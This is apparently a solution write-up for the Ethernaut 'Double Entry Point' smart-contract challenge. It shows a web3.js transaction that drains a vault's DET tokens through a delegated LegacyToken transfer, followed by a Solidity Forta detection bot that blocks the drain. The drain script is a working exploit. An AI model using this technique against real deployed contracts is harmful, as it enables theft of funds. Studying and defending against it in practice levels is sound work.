 ### Solution from [repo](https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/main/level_26_Double-Entry-Point.md)

`player` has to find the bug in the `CryptoVault` and create a Forta bot to protect it from being drained.

First, let's figure out the exploit that allows to drain the underlying (DET) tokens. If you see the `sweepToken()` method it can be seen that it restricts sweeping the underlying tokens with a `require` check - as expected. But take a look at `LegacyToken`'s `transfer()` method:

```solidity
if (address(delegate) == address(0)) {
    return super.transfer(to, value);
} else {
    return delegate.delegateTransfer(to, value, msg.sender);
}
```

Looks like it actually calls `delegateTransfer()` method of some `DelegateERC20` contract. But this `DelegateERC20` is nothing but the implementation of the underlying (`DET`) token itself! And `delegateTransfer()` simply transfers the tokens according to given parameters. The only restriction `delegateTransfer()` puts is that `msg.sender` must be the LegacyToken (`delegatedFrom` address) contract.

So we can indirectly sweep the underlying tokens through `transfer()` of `LegacyToken` contract. We simply call `sweepToken` with address of `LegacyToken` contract. That in turn would make the `LegacyContract` to call the `DoubleEntryPoint`'s (DET token) `delegateTransfer()` method.

```js
vault = await contract.cryptoVault();

// Check initial balance (100 DET)
await contract.balanceOf(vault).then((v) => v.toString()); // '100000000000000000000'

legacyToken = await contract.delegatedFrom();

// sweepTokens(..) function call data
sweepSig = web3.eth.abi.encodeFunctionCall(
  {
    name: "sweepToken",
    type: "function",
    inputs: [{ name: "token", type: "address" }],
  },
  [legacyToken]
);

// Send exploit transaction
await web3.eth.sendTransaction({ from: player, to: vault, data: sweepSig });

// Check balance (0 DET)
await contract.balanceOf(vault).then((v) => v.toString()); // '0'
```

And `CryptoVault` is swept of DET tokens!

This worked because during invocation `transfer()` of `LegacyToken` the `msg.sender` was `CryptoVault`. And when `delegateTransfer()` invoked right after, the `origSender` is the passed in address of `CryptoVault` contract and `msg.sender` is `LegacyToken` so `onlyDelegateFrom` modifier checks out.

Now to prevent this exploit we have to write a bot which would be a simple contract implementing the `IDetectionBot` interface. In the bot's `handleTransaction(..)` we could simply check that the address was not `CryptoVault` address. If so, raise alert. Hence preventing sweep.

Open up Remix and deploy the bot (on Rinkeby) and copy its address.

```solidity
pragma solidity ^0.8.0;

interface IForta {
    function raiseAlert(address user) external;
}

contract FortaDetectionBot {
    address private cryptoVault;

    constructor(address _cryptoVault) {
        cryptoVault = _cryptoVault;
    }

    function handleTransaction(address user, bytes calldata msgData) external {
        // Extract the address of original message sender
        // which should start at offset 168 (0xa8) of calldata
        address origSender;
        assembly {
            origSender := calldataload(0xa8)
        }

        if (origSender == cryptoVault) {
            IForta(msg.sender).raiseAlert(user);
        }
    }
}
```

Note that in the above `FortaDetectionBot` contract we extract the address of the original transaction sender by calculating its offset according to the [ABI encoding](https://docs.soliditylang.org/en/latest/abi-spec.html#argument-encoding) specs.

Now set the bot in `Forta` contract:

```js
// FortaDetectionBot
botAddr = "0x...";

// Forta contract address
forta = await contract.forta();

// setDetectionBot() function call data
setBotSig = web3.eth.abi.encodeFunctionCall(
  {
    name: "setDetectionBot",
    type: "function",
    inputs: [{ type: "address", name: "detectionBotAddress" }],
  },
  [botAddr]
);

// Send the transaction setting the bot
await web3.eth.sendTransaction({ from: player, to: forta, data: setBotSig });
```
